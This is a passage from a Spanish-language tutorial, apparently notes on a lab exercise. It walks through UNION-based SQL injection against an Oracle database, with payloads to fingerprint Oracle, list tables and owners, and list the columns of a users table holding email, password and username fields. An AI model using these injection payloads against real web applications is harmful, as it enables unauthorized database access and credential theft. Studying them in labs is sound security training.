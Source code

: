 Al ser `Oracle` ya cambia la cosa en algunos aspectos a la hora de poder ver una base de datos o una tabla...

```mysql
' union select NULL,NULL from dual-- -
```

Para saber que es a `Oracle` a los que nos estamos enfrentando, por lo que ahora vamos a pasar a ver las bases de datos que se encuentran en esta pagina...

```mysql
' union select NULL,table_name from all_tables-- -
```

Ahi mostraria todas las tablas que hay, pero si solo queremos filtrar por las tablas que sean con privilegios altos, hariamos lo siguiente...

```mysql
' union select NULL,owner from all_tables-- -
```

Y aparecerian estas...

```
|APEX_040000|
|CTXSYS|
|MDSYS|
|PETER|
|SYS|
|SYSTEM|
|XDB|
```

La mas curiosa es la de `PETER`, si queremos filtrar por esa tabla en concreto, lo que haremos sera...

```mysql
' union select NULL,table_name from all_tables where owner='PETER'-- -
```

Con esto lo que hacemos es que nos muestre las tablas o columnas en las que `PETER` tiene privilegios altos indicandole el `owner`...

```
|PRODUCTS|
|USERS_NADZKF|
```

Sabiendo que `USERS_NADZKF` es la que queremos ver, para ver las columnas que contiene esa tabla, lo que haremos sera lo siguiente...

```mysql
' union select NULL,column_name from all_tab_columns where table_name='USERS_NADZKF'-- -
```

Y aparecera lo siguiente...

```
|EMAIL|
|PASSWORD_MJWVFY|
|USERNAME_UGMMPB|
```
